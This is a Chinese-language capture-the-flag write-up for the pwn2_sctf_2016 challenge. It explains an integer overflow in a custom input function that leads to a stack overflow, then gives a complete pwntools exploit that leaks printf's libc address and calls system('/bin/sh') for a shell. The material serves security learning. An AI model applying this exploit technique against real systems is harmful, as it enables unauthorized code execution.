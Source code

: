 # 知识点

整数溢出、ret2libc



# 题目分析

1. 检查保护情况，32位程序，开启NX保护。

       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)

2. 拖入IDA分析，发现题目要求输入长度，然后读取指定长度内容到nptr。

   输入函数使用的是题目自己写的get_n，怀疑该函数存在漏洞。

   ![ida1](./isset/ida1.png)

3. 继续分析get_n函数，发现该函数的第二个长度参数是unsigend类型。

   因此，我们可以将长度设置为负数，这样就会读取很长的内容造成栈溢出漏洞。

   ![ida2](./isset/ida2.png)

4. 最后，利用printf函数泄露got表地址，进而ret2libc。



# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn2_sctf_2016')
io = remote('node4.buuoj.cn', '28675')
elf = ELF('./pwn2_sctf_2016')
libc = ELF('./libc-2.23.so')

main = elf.sym['_start']
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']

# integer overflow
io.sendline('-1')

# leak printf
payload = 'A' * 0x2C + 'dead'
payload += p32(printf_plt) + p32(main) + p32(printf_got)
io.sendline(payload)
printf_real = u32(io.recvuntil('\xf7')[-4:])

# libc
libc_base = printf_real - libc.sym['printf']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# ret2libc
io.sendline('-1')

payload = 'A' * 0x2C + 'dead'
payload += p32(system) + p32(main) + p32(binsh)
io.sendline(payload)

io.interactive()
```

